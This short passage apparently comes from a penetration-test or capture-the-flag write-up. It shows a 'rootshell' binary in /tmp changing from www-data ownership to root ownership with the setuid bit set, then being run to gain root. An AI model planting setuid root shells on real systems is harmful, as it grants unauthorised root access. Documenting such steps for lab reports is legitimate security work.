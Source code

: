 ![After](screenshots-storage/rootshell_perm1.png)

Specifically, the permissions changed from:

```txt
-rw-r--r--  1 www-data www-data 16232 Mar 19 23:39 rootshell
```

To:

```txt
-rwsr-xr-x  1 root root 16232 Mar 19 23:39 rootshell
```

Now we can execute the file:

```bash
cd /tmp/
./rootshell
```

\newpage

**Proof Screenshot Here:**
